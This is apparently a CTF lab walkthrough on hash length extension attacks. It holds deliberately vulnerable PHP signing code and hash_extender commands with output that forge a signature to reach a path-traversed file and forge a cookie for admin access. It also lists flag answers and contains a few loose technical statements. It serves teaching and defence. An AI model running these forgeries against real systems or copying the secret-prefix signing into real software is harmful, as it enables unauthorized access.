








# Task 1 | Introduction

## Overview

Hash functions are cryptographic tools that generate fixed-length outputs (hashes) from variable-length inputs. They serve as digital fingerprints for data, ensuring integrity and authenticity. Even the smallest change to input data produces a completely different hash, making them ideal for detecting tampering.

## Learning Objectives

By the end of this room, you will:

- Understand cryptographic hash functions and their role in data security
- Learn how Length Extension Attacks exploit vulnerable hash functions
- Explore real-world scenarios where these attacks are applicable
- Gain hands-on experience identifying and exploiting Length Extension vulnerabilities

## Initial Setup

Before starting, add the target machine to your hosts file:

```bash
echo "10.48.179.148    lea.thm" >> /etc/hosts
```

This ensures that when you navigate to `lea.thm`, your system resolves it to the correct IP address.

**Question:** I have started the target machine and I'm ready to learn about Length Extension Attacks!

**Answer:** *No answer needed*

---

# Task 2 | Hash Functions

## Overview

Hash functions are fundamental to modern cryptography and security. They transform data of any size into a fixed-length output, creating a unique fingerprint that can verify data integrity.

## Questions

**Question:** What property prevents an attacker from reversing a hash to get the original input?

**Answer:** `Pre-image Resistance`

**Question:** What property ensures that no two different messages produce the same hash?

**Answer:** `Collision Resistance`

## Key Security Properties

Hash functions rely on three critical properties for security:

### Pre-image Resistance

If someone sees a hash, they cannot determine the original input. This is essential for password storage—even if attackers obtain hashes, they cannot reverse them to recover passwords.

### Second Pre-image Resistance

Given a message and its hash, it should be computationally infeasible to find a different message that produces the same hash. This prevents attackers from tampering with data while maintaining a valid hash.

### Collision Resistance

It should be computationally infeasible to find two different inputs that produce the same hash. While collisions theoretically exist, finding them should be practically impossible within a reasonable timeframe.

## Common Use Cases

Hash functions are widely used in:

- **File Integrity Checks:** Verifying downloaded files match their published hashes
- **Password Storage:** Storing hashed passwords instead of plaintext
- **Digital Signatures:** Ensuring documents and transactions remain unaltered
- **SSL/TLS Certificates:** Verifying certificate authenticity

## Vulnerabilities

Not all hash functions are created equal. Older algorithms like MD5 and SHA-1 have known vulnerabilities, including susceptibility to Length Extension Attacks. These attacks allow attackers to extend a message and predict its hash without knowing the original message or secret key.

---

# Task 3 | Hashing Internals

## Overview

Understanding how hash functions process data internally is crucial for comprehending Length Extension Attacks. Hash functions like MD5, SHA-1, and SHA-256 process data in fixed-size blocks rather than all at once.

## Questions

**Question:** What block size does SHA-256 use?

**Answer:** `512`

**Question:** What function ensures data is aligned to fit block size requirements?

**Answer:** `Padding`

**Question:** How many words does SHA-256's internal state have?

**Answer:** `8`

## Block Processing

Hash functions break data into fixed-size chunks. SHA-256 uses 512-bit blocks. If data doesn't fit perfectly, padding is added to align it to the required block size.

## Padding Mechanism

Padding serves two critical purposes:

1. **Data Alignment:** Ensures data fits the exact block size (512 bits for SHA-256)
2. **Message Integrity:** Includes the original message length at the end of padding

**Example:** For a 448-bit message with SHA-256:
- Add a "1" bit
- Add 63 "0" bits
- Add 64-bit length encoding
- Total: 448 + 1 + 63 = 512 bits

If the message plus padding exceeds one block, additional blocks are created for length encoding.

## Internal State

Hash functions maintain an internal state (registers) that updates after processing each block. SHA-256 uses 8 words (A, B, C, D, E, F, G, H) that get modified through rounds of transformations (bitwise operations, shifts, additions).

## Hash Function Comparison

### MD5

- **Block size:** 512 bits
- **Internal state:** 128 bits (4 registers: A, B, C, D)
- **Rounds:** 64 per block
- **Vulnerability:** Predictable internal state and padding make it vulnerable to length extension attacks. Also obsolete due to collision vulnerabilities.



**Example:** Files `hello` and `erase` produce the same MD5 hash, demonstrating collision vulnerability:



### SHA-1

- **Block size:** 512 bits
- **Internal state:** 160 bits (5 words: A, B, C, D, E)
- **Rounds:** 80 per block
- **Vulnerability:** Proven collision weaknesses and length extension attack susceptibility. Considered outdated for modern security.



### SHA-256

- **Block size:** 512 bits
- **Internal state:** 256 bits (8 words: A, B, C, D, E, F, G, H)
- **Rounds:** 64 per block
- **Vulnerability:** Stronger than MD5 and SHA-1, but still vulnerable to length extension attacks if used incorrectly (especially without HMAC).


---

# Task 4 | Understanding Length Extension Attacks

## Overview

Length Extension Attacks exploit hash functions built using the Merkle-Damgård construction (MD5, SHA-1, SHA-256). These attacks allow attackers to extend a message and predict its hash without knowing the original message or secret key.

## Question

**Question:** What hashing method prevents length extension attacks by using a secret key?

**Answer:** `HMAC`

## How It Works

For a length extension attack to succeed, an attacker needs:

1. The hash of the original message
2. The length of the original message (or ability to guess it)
3. Understanding of the hash function's padding rules

Hash functions process data in blocks, updating internal state after each block. The final hash represents the internal state after all blocks are processed. An attacker can use this state as a starting point to continue hashing additional data blocks.

## Attack Visualization

| Normal Hashing       | Length Extension Attack                          |
| -------------------- | ------------------------------------------------ |
| Message: "user=test" | Original: "user=test"                            |
| Padding added        | Padding + attacker appends "&admin=true"         |
| Hash generated       | Attacker uses original hash to generate new hash |
| Result: Valid hash   | Result: Valid hash for extended message          |

## Why This Works

The attack succeeds because the hash function's internal state carries over between blocks. After processing the original message, the function leaves off in a specific state (the hash). Attackers can resume from this state, adding new data and continuing the hashing process.

## Vulnerable Hash Functions

Common vulnerable hash functions (Merkle-Damgård construction):

- **MD5:** Processes 512-bit blocks; vulnerable to length extension
- **SHA-1:** Similar block processing; phased out of security-critical systems
- **SHA-256:** Stronger but still exploitable if used without HMAC

---

# Task 5 | Practical - Attacking Signatures

## Overview

This task demonstrates a length extension attack against a web application that uses SHA-256 to sign file names. We'll exploit the vulnerability to access unauthorized files.

## Question

**Question:** What is the flag in the image?

**Answer:** `THM{L3n6th_3Xt33ns10nssss}`

## Setup

Before starting, ensure you have the `hash_extender` tool installed. It's available in the AttackBox at `/root/Rooms/LengthExtensionAttacks/hash_extender/` or can be downloaded from [GitHub](https://github.com/iagox86/hash_extender).

## Reconnaissance

Navigate to the homepage:



Click "View Details" on any product. The application uses `product.php` with `signature` and `file` parameters to verify file legitimacy:



## Vulnerable Code Analysis

The application uses this vulnerable PHP code:

```php
require_once("secrets.php");

function sign($str, $secret) {
    return hash('sha256', $secret . $str);
}

// Retrieve and sanitize file and signature parameters
$file = isset($_GET['file']) ? $_GET['file'] : '';
$signature = isset($_GET['signature']) ? $_GET['signature'] : '';

if ($file && $signature) {
    // Validate the signature
    if (sign($file, $SECRET) === $signature) {
        // Sanitize the filename, force UTF-8 encoding, and remove malicious characters
        $file = mb_convert_encoding($file, 'UTF-8', 'binary');
        $file = preg_replace('/[^\w\/.]/', '', $file);

        // Set the file path in the images folder
        $filePath = __DIR__ . "/images/" . basename($file);

        // Check if the file exists and if it matches a defined product
        if (file_exists($filePath)) {
            $product = $products[$file];
            // Display product details
```

**Vulnerability:** The code signs files using `hash('sha256', $SECRET . $file)`, which is vulnerable to length extension attacks.

## Exploitation

**Objective:** Append `/../4.png` to the file parameter (e.g., "1.png") to access an unauthorized file while generating a valid SHA-256 signature.

Use `hash_extender` to perform the attack:

```bash
./hash_extender --data 1.png --signature 02d101c0ac898f9e69b7d6ec1f84a7f0d784e59bbbe057acb4cef2cf93621ba9 --append /../4.png --out-data-format=html
```

**Command Explanation:**

- `--data`: Original data to be signed ("1.png")
- `--signature`: Original hash signature for "1.png"
- `--append`: Data to append ("/../4.png")
- `--out-data-format=html`: Format output for web requests

**Output:**

```
Type: sha256
Secret length: 8
New signature: a9f7878a39b10d0a9d3d1765d3e83dd34b0b0242fa7e1567f085a5a9c467337a
New string: 1%2epng%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00h%2f%2e%2e%2f4%2epng
```

Make a request using the SHA-256 signature and string values to retrieve the flag:



---

# Task 6 | Practical - Modifying a Signed Cookie

## Overview

This task demonstrates a real-world privilege escalation scenario using a length extension attack to modify a signed cookie, elevating privileges from regular user to admin.

## Question

**Question:** What is the flag?

**Answer:** `THM{l3n6th_2_4dM1n}`

## Application Analysis

Navigate to `http://lea.thm/labs/lab2/`. The application uses cookies to store session tokens and authentication hashes:



Login with credentials `user:user`:


## Vulnerable Code

The application signs cookies using SHA-256 with a secret key. However, this implementation is vulnerable to length extension attacks:

```php
require_once("secrets.php");

// Default authorization status
$auth = false;

// Check if the 'auth' and 'hsh' cookies are set
if (isset($_COOKIE["auth"]) && isset($_COOKIE["hsh"])) {
    $auth = $_COOKIE["auth"]; // Get the original auth string
    $hsh = $_COOKIE["hsh"];

    // Verify the hash to ensure integrity
    if ($hsh === hash("sha256", $SECRET . $auth)) {
        // Instead of trying to parse, check if 'role=1' exists in the string
        if (strpos($auth, 'role=1') !== false) {
            echo "<html><head><title>Admin Panel</title></head><body>";
            echo "<h1>Welcome, Admin!</h1><br><br>";
        } elseif (strpos($auth, 'role=0') !== false) {
            echo "<html><head><title>User Panel</title></head><body>";
            echo "<h1>Welcome, User!</h1><br><br>";
        }
    }
}
```

**Cookie Structure:**

- `auth`: Contains user data like `"username=user;role=0"` (regular user)
- `hsh`: SHA-256 hash signature of `$SECRET . $auth`
- **Vulnerability:** Server checks for `role=1` in the auth string to grant admin access

## Exploitation

**Goal:** Escalate privileges by appending `;role=1` to the auth cookie without knowing the secret key.

Use `hash_extender` to generate a modified cookie:

```bash
./hash_extender --data 'username=user;role=0' --append ';role=1' --signature bfe0fa5c36531773c73dcc8d2a931301f69cf9add05a1f35dcfa2d48b44c37f0 --format sha256 --secret 8 --out-data-format=html
```

**Command Parameters:**

- `--data`: Original cookie value (`username=user;role=0`)
- `--append`: Data to add (`;role=1`)
- `--signature`: Original SHA-256 hash signature
- `--format`: Hash algorithm (SHA-256)
- `--secret`: Guessed secret key length (8)
- `--out-data-format=html`: URL-encoded HTML format

**Output:**

```
Type: sha256
Secret length: 8
New signature: daf3dbdc47fd93fabe110ef0ed58a39d1eb59c234a7fd66d0fe2e1dd76f1e37f
New string: username%3duser%3brole%3d0%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%e0%3brole%3d1
```

## Setting the Cookies

Set the following cookies in your browser:

```
auth=username%3duser%3brole%3d0%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%e0%3brole%3d1
hsh=daf3dbdc47fd93fabe110ef0ed58a39d1eb59c234a7fd66d0fe2e1dd76f1e37f
```

After setting these cookies and refreshing the page, the server validates the modified cookie and grants admin access (since `role=1` exists in the auth string):



---

# Task 7 | Mitigation Techniques

## Overview

While length extension attacks pose serious risks, there are effective mitigation strategies to protect against them.

## Question

**Question:** Click me to proceed to the next task.

**Answer:** *No answer needed*

## Use HMAC (Hash-based Message Authentication Code)

HMAC is the recommended solution for preventing length extension attacks. It combines a hash function with a secret key, ensuring attackers cannot append data and create valid hashes without the key.

**Why HMAC Works:**

- The secret key is mixed with data before hashing
- Attackers cannot calculate correct hashes without the key
- Prevents length extension attacks entirely

**Python Implementation Example:**

```python
import hmac
import hashlib

key = b'supersecretkey'
message = b'important_data'

hmac_hash = hmac.new(key, message, hashlib.sha256).hexdigest()
print(hmac_hash)
```

With HMAC, even if attackers attempt to modify messages, they cannot produce valid hashes without the secret key.

## Stop Using Outdated Hash Functions

MD5 and SHA-1 have known vulnerabilities and should not be used in security-sensitive applications. Instead:

- Use modern alternatives like SHA-3
- Always combine with HMAC for added protection
- Avoid using vulnerable hash functions for integrity checks or signing data

## Use Established Security Protocols

Rather than building custom cryptographic solutions, rely on proven secure protocols:

- **OAuth:** Secure authentication framework
- **JWT (JSON Web Tokens):** Tokens signed with HMAC-SHA256 are resistant to length extension attacks
- **TLS/SSL:** Industry-standard encryption protocols

These protocols use secure mechanisms that prevent length extension attacks and other cryptographic vulnerabilities.

---

# Task 8 | Conclusion

## Overview

Congratulations! You've completed the Length Extension Attacks room and gained practical experience with this cryptographic vulnerability.

## Question

**Question:** I can now do Length Extension Attacks!

**Answer:** *No answer needed*

## Key Takeaways

### Understanding Hash Functions

You now understand how cryptographic hash functions work and why properties like pre-image resistance and collision resistance are crucial for data security.

### Exploiting Vulnerabilities

We've demonstrated how attackers can modify hashed data and generate valid signatures without knowing the original input, exploiting weaknesses in how certain hash functions process data.

### Real-World Impact

From forging signatures to altering signed cookies, we've covered how these attacks manifest in real-world scenarios and the risks they pose to systems relying on vulnerable hashing algorithms.

### Mitigation Strategies

The best defense against length extension attacks is using HMAC with secure hash functions like SHA-256, combined with proper key management and encryption practices.

---